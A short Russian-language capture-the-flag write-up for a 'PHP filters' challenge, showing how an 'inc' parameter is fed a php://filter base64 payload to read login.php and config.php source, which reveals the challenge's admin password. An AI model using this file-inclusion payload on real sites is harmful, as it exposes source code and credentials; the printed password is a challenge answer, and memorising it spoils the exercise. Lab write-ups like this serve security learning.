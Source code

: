 # PHP filters

25 Points
FileManager v 0.01

У нас есть форма. А также есть параметр inc. Поиграемся с ним.

![](image1.png)

Вывод позволяет нам сделать предположение, что здесь используются PHP-фильтры. Воспользуемся php-фильтром по преобразованию файла в base64:

```
php://filter/convert.base64-encode/resource=login.php
```

![](image2.png)

Раскодируем.

```php
<?php
include("config.php");

if ( isset($_POST["username"]) && isset($_POST["password"]) ){
    if ($_POST["username"]==$username && $_POST["password"]==$password){
      print("<h2>Welcome back !</h2>");
      print("To validate the challenge use this password<br/><br/>");
    } else {
      print("<h3>Error : no such user/password</h2><br />");
    }
} else {
?>

<form action="" method="post">
  Login&nbsp;<br/>
  <input type="text" name="username" /><br/><br/>
  Password&nbsp;<br/>
  <input type="password" name="password" /><br/><br/>
  <br/><br/>
  <input type="submit" value="connect" /><br/><br/>
</form>

<?php } ?>
```
Нам нужен config.php. Его исходный код получим также через php-фильтр
```php
<?php

$username="admin";
$password="DAPt9D2mky0APAF";

?>
```